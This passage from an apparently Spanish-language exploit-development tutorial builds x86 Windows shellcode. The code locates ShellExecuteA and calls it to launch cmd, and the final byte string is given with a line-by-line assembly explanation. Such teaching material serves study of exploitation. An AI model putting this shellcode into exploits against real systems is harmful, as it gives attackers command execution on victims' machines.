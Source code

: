     ```
      arwin.exe Shell32.dll ShellExecuteA
      'ShellExecuteA is located at 0x762bd970 in Shell32.dll'
    ```
*   Moveremos la dirección a un registro y luego llamaremos al registro. Ya no usaremos EAX como cero, así que podemos pasar a eso. No olvides invertir la dirección, porque estamos en Windows (little-endian)

    ```
    "\xB8\x70\xD9\x2b\x76" // mov eax, 762bd970 - address of ShellExecuteA
    "\xff\xD0"                       // call eax
    ```

### shellcode final <a href="#final-shellcode" id="final-shellcode"></a>

```
"\x68\x63\x6d\x64\x00"
"\x8B\xDC"
"\x6A\x00"
"\x68\x6f\x70\x65\x6e"
"\x8B\xCC"
"\x6A\x03"
"\x33\xc0"
"\x50"
"\x50"
"\x53"
"\x51"
"\x50"
"\xB8\x70\xD9\x2b\x76"
"\xff\xD0"
```

#### Explicación de shellcode <a href="#shellcode-explained" id="shellcode-explained"></a>

```
   → "\x68\x63\x6d\x64\x00"   // PUSH "cmd" and terminates the string with \x00 = now its 4 bytes
   → "\x8B\xDC"                       // MOV EBX, ESP => puts the pointer to the text "cmd" into ebx
   →  "\x6A\x00"                      // PUSH 0: string terminator For 'open'
   → "\x68\x6f\x70\x65\x6e"   // PUSH "open" onto the stack
   → "\x8B\xCC"                      // MOV ECX, ESP => puts the pointer to the text 'open' into ecx
   → "\x6A\x03" // PUSH 3 => the last argument
   → "\x33\xc0"  // xor eax, eax => zero out the eax register
   → "\x50"        // push eax => pushes 0 = the second to last argument
   → "\x50"        // push eax => pushes 0 = the third to last argument
   → "\x53" // push ebx => push the pointer to string 'cmd'
   → "\x51" // push ecx => push the pointer to string 'open'
   → "\x50" // push eax => pushes 0 = push the first argument
   → "\xB8\x70\xD9\x2b\x76" // mov eax, 762bd970 = move ShellExecuteA into eax
   → "\xff\xD0"                       // call eax = call the function ShellExecuteA
```
